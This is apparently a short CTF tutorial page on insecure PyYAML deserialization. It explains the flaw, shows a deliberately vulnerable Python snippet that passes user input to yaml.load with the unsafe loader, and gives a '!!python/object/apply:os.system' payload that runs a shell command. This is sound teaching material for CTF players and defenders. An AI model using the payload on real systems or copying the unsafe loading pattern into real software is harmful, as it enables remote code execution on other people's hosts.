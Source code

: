 ```yaml
---
title: "YAML Deserialization"
description: "Exploit insecure YAML deserialization in Python applications to achieve code execution or access sensitive objects."
date: 2025-10-06
draft: false
weight: 30
categories: ["Web"]
tags: ["yaml", "deserialization", "pYYAML", "python", "web", "ctf"]
authors: ["CTF.Support Team"]
summary: "Learn how unsafe use of yaml.load() leads to arbitrary code execution and how to identify and exploit YAML deserialization bugs in CTF challenges."
aliases: ["/web/python/yaml-deserialization/"]
slug: "yaml-deserialization"
toc: true
---
```


## Introduction

**YAML deserialization vulnerabilities** occur when a Python application uses `yaml.load()` insecurely on untrusted input.  
The `PyYAML` module can instantiate arbitrary Python objects leading to **remote code execution** (RCE).  
In web CTFs, YAML files or request payloads often hide this weakness.

---

## Quick Reference

| Task                 | Code / Payload                              |
|----------------------|---------------------------------------------|
| Vulnerable call      | `yaml.load(user_input, Loader=yaml.Loader)` |
| Detect vulnerability | Search for `yaml.load(` in source code      |
| Exploit template     | Use `!!python/object/apply:` payloads       |

---

## Example: Vulnerable Application

```python
import yaml

def parse_config(data):
    return yaml.load(data, Loader=yaml.Loader)

user_yaml = input("Enter YAML: ")
parse_config(user_yaml)
```

---

## Exploitation Example

To trigger code execution, you can invoke OS commands using Python's `os.system` via PyYAML's apply syntax.

```yaml
!!python/object/apply:os.system ["cat flag.txt"]
```

When deserialized, this executes the command on the host.
